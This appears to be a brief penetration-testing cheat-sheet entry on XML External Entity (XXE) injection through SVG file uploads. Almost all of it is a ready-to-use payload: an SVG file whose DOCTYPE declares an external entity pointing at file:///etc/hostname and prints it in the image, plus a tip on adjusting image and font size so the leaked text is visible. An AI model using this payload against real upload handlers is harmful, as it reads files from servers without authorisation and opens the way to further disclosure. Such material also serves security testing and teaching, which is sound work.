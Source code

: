 #xmli #xxe #file_upload #xml 

If the application process or validate (server-side) uploaded files that use or contain XML (e.g. SVG or DOCX).

## SVG File Upload
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///etc/hostname" >]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg"
    xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="20" x="0" y="16">&xxe;</text>
</svg>
```

Note: Ajust Image and Font size. 